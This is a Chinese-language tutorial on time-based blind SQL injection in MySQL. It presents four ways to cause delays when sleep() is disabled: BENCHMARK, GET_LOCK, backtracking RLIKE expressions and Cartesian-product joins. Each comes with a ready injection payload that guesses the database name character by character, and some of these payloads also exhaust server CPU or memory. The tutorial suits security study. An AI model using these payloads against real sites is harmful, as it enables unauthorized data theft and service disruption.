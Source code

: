 ### SQL 延时盲注 sleep() 被禁用怎么绕过

**1. 利用 BENCHMARK() 函数**

`BENCHMARK()` 函数是 MySQL 中一个非常有用的性能测试函数。它的作用是让一个函数重复执行多次，并返回执行时间。我们可以利用这个特性来造成可控的延时

- **原理:** `BENCHMARK(count, expr)` 会让 `expr` 表达式执行 `count` 次。如果我们让它执行一个耗时但无害的操作，就可以造成明显的延时

- **基本语法:** `BENCHMARK(count, expr)`

- **利用方式:**

  ```sql
  # 让 MD5('a') 重复执行 5,000,000 次，从而造成延时
  AND IF(ascii(substr(database(),1,1))=115, BENCHMARK(5000000, MD5('a')), 1)
  ```

  **解释:**

  - `IF(condition, true_value, false_value)`：这是一个条件判断语句
  - `ascii(substr(database(),1,1))=115`：这是我们的注入条件，判断数据库名的第一个字符的 ASCII 值是否为 115（即 `'s'`）
  - 如果条件为真，`BENCHMARK()` 函数被执行，导致页面延迟；如果条件为假，则立即返回 `1`，页面没有延迟

**2. 利用 GET_LOCK() 函数**

`GET_LOCK()` 函数是 MySQL 中的一个锁函数。它可以获取一个指定的锁，并在指定的超时时间内等待。如果锁被其他会话占用，它就会一直等待直到超时。我们可以利用这个特性来造成延时

- **原理:** `GET_LOCK(str, timeout)` 函数尝试获取一个名为 `str` 的锁，并等待 `timeout` 秒

- **利用方式:**

  ```sql
  # 如果条件为真，则获取一个名为 'a' 的锁并等待 5 秒
  AND IF(ascii(substr(database(),1,1))=115, GET_LOCK('a', 5), 1)
  ```

  这种方法的缺点是，如果多个请求同时执行，可能会因为锁竞争而造成不可预知的行为

**3. 利用 RLIKE/REGEXP 的正则特性**

当使用 `RLIKE` 或 `REGEXP` 进行正则表达式匹配时，如果正则表达式足够复杂，并且目标字符串足够长，也会造成明显的性能消耗，从而实现延时效果

- **原理:** 构造一个回溯（backtracking）量较大的正则表达式，让 MySQL 在匹配时消耗大量 CPU 资源

- **利用方式:**

  ```sql
  # 构造一个高回溯的正则表达式来消耗 CPU
  AND IF(ascii(substr(database(),1,1))=115, (SELECT concat(rpad('',4999999,'a'),rpad('',4999999,'a'),'a') RLIKE '(a.*)+(a.*)+'), 1)
  ```

  **解释:** `rpad()` 函数用于填充字符串，使其变得很长。`RLIKE '(a.*)+(a.*)+'` 是一个典型的回溯型正则表达式。当字符串很长时，匹配会非常耗时

**4. 利用笛卡尔积**

通过制造一个巨大的笛卡尔积，可以使查询的执行时间大大增加

- **原理:** 当两个大表没有关联地进行连接时，结果集的行数是两个表行数的乘积

- **利用方式:**

  ```sql
  # 使用 information_schema.tables 来制造一个笛卡尔积
  AND IF(ascii(substr(database(),1,1))=115, (SELECT COUNT(*) FROM information_schema.tables a, information_schema.columns b), 1)
  ```

  这种方法同样会造成明显的延迟，但查询结果可能会占用大量内存